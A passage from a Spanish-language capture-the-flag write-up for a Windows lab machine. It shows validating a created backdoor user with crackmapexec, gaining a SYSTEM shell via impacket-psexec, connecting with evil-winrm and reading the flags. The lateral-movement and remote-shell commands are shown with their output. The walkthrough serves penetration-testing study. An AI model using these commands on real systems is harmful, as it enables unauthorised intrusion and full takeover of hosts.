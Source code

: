 Validamos con `crackmapexec smb` si nuestro usuario fue creado:

```bash
❯ crackmapexec smb 10.10.10.152 -u 'kamiyo' -p 'k4miyo123$!'
SMB         10.10.10.152    445    NETMON           [*] Windows Server 2016 Standard 14393 x64 (name:NETMON) (domain:netmon) (signing:False) (SMBv1:True)
SMB         10.10.10.152    445    NETMON           [+] netmon\kamiyo:k4miyo123$! (Pwn3d!)
```

Fue creado y a parte tenemos posiblidad de ingresar a la máquina con `impacket-psexec`. En caso que no queramos usar `psexec` podríamos tratar de agregar nuestro usuario al grupo **Remote Management Users** y conectarnos a la máquina con `evil-winrm` ya que se encuentra abierto el puerto 5985.

```bash
❯ impacket-psexec WORKGROUP/kamiyo:k4miyo123\$\!@10.10.10.152
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Requesting shares on 10.10.10.152.....
[*] Found writable share ADMIN$
[*] Uploading file PrIscOHa.exe
[*] Opening SVCManager on 10.10.10.152.....
[*] Creating service FyEk on 10.10.10.152.....
[*] Starting service FyEk.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
nt authority\system

C:\Windows\system32>
```

```bash
❯ evil-winrm -i 10.10.10.152 -u 'kamiyo' -p 'k4miyo123$!'

Evil-WinRM shell v3.3

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM Github: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\kamiyo\Documents> whoami
netmon\kamiyo
*Evil-WinRM* PS C:\Users\kamiyo\Documents>
```

Ya nos encontramos dentro de la máquina como `nt authority\system` y podemos visualizar las flags (user.txt y root.txt).
